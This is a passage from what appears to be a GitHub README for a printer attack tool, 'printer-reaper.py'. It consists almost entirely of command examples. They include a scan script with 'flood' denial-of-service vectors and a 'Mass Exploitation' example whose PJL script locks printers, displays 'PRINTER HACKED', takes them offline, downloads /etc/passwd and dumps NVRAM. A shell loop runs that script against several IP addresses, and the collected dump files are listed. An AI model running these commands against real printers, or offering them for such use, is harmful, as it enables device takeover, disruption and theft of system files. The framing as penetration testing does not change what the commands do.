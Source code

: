 ```
download /etc/config.xml

# Test DoS vectors
flood 1000
flood 10000

# Cleanup and exit
backup vuln_scan_backup.cfg
exit
```

**Execute:**
```bash
$ python3 printer-reaper.py -i vuln_scan.txt 192.168.1.100 pjl | tee scan_results.log
```

---

### Example 19: Mass Exploitation

**Scenario**: Exploit multiple printers

```bash
# Create exploit script
$ cat mass_exploit.txt
id
lock 31337
display "PRINTER HACKED - SECURITY TEAM NOTIFIED"
offline "Under Investigation - Do Not Use"
download /etc/passwd
nvram dump
backup exploitation_backup.cfg
exit

# Run against all discovered printers
$ for ip in 192.168.1.100 192.168.1.105 10.0.0.50; do
    echo "Exploiting $ip..."
    python3 printer-reaper.py -i mass_exploit.txt $ip pjl
done

# Results collected in current directory
$ ls
passwd_192.168.1.100
passwd_192.168.1.105
passwd_10.0.0.50
nvram_dump_*.txt
exploitation_backup_*.cfg
```

---

## 🧪 Testing Best Practices
